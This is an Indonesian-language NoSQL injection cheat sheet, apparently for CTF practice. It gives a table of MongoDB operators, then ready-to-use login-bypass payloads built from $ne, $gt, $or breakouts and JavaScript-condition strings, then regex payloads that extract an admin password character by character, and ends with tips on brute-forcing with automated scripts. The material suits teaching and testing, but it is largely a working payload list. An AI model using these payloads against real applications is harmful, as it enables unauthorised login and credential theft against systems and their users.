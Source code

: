 # NoSQL Injection Cheatsheet (CTF)

## Penggunaan & Payload NoSQL Injection

### 1. Operator Penting MongoDB

| Operator | Fungsi                          | Contoh Penggunaan                                                                                          |
| -------- | ------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `$ne`    | Not Equal (tidak sama dengan)   | `{ "username": { "$ne": "admin" } }`<br>Query user selain admin                                            |
| `$eq`    | Equal (sama dengan)             | `{ "age": { "$eq": 18 } }`<br>Query user dengan age=18                                                     |
| `$gt`    | Greater Than (lebih besar dari) | `{ "age": { "$gt": 18 } }`<br>Query user dengan age>18                                                     |
| `$lt`    | Less Than (lebih kecil dari)    | `{ "age": { "$lt": 18 } }`<br>Query user dengan age<18                                                     |
| `$in`    | Ada di dalam array              | `{ "role": { "$in": ["admin", "user"] } }`<br>Query user dengan role admin/user                            |
| `$nin`   | Tidak ada di dalam array        | `{ "status": { "$nin": ["inactive"] } }`<br>Query user dengan status selain inactive                       |
| `$regex` | Regular Expression (pola)       | `{ "username": { "$regex": ".*ad.*" } }`<br>Query username yang mengandung 'ad'                            |
| `$or`    | Salah satu kondisi benar        | `{ "$or": [ { "username": "admin" }, { "role": "admin" } ] }`<br>Query user username=admin atau role=admin |
| `$and`   | Semua kondisi benar             | `{ "$and": [ { "active": true }, { "age": { "$gt": 18 } } ] }`<br>Query user aktif dan age>18              |

---

### 2. Payload Bypass Login

- **Bypass login universal:**

  - username: `{ "$ne": null }`
  - password: `{ "$ne": null }`

- **Bypass login user tertentu:**

  - username: `admin`
  - password: `{ "$ne": "1" }`

- **Login tanpa password:**

  - username: `admin' || '1'=='1`
  - password: `apapun`

- **Menggunakan $or:**

  - username: `admin" }, "$or": [ {}, { "a":"a`
  - password: `" } ] //`

- **Regex Injection:**

  - username: `admin`
  - password: `{ "$regex": ".*" }`

- **Payload lain:**
  - username: `{ "$gt": "" }`
  - password: `{ "$ne": "" }`
  - username: `admin' && this.password.match(/.*/)//`

---

### 3. Ekstraksi & Brute Force Data

- **Mengetahui panjang password:**

  - username: `admin`
  - password: `{ "$regex": ".{8}" }`

- **Mengecek karakter pertama password:**

  - username: `admin`
  - password: `{ "$regex": "^a.*" }`

- **Mengecek karakter kedua password:**

  - username: `admin`
  - password: `{ "$regex": "^.b.*" }`

- **Brute force karakter per karakter:**

  - username: `admin`
  - password: `{ "$regex": "^.{3}c.*" }` (cek karakter ke-4 adalah 'c')

- **Cek password hanya huruf/angka:**

  - username: `admin`
  - password: `{ "$regex": "^[a-zA-Z0-9]+$" }`

- **Cek password mengandung string tertentu:**
  - username: `admin`
  - password: `{ "$regex": "flag" }`

---

### 4. Tips & Trik NoSQL Injection di CTF

- Coba input JSON, array, dan operator MongoDB.
- Perhatikan error message dan response time.
- Gunakan tools seperti Burp Suite, Postman, atau curl untuk testing.
- Cek apakah aplikasi melakukan sanitasi input.
- Coba kombinasi payload untuk bypass login, enum data, atau dump data.
- Lakukan brute force dengan script otomatis jika memungkinkan.
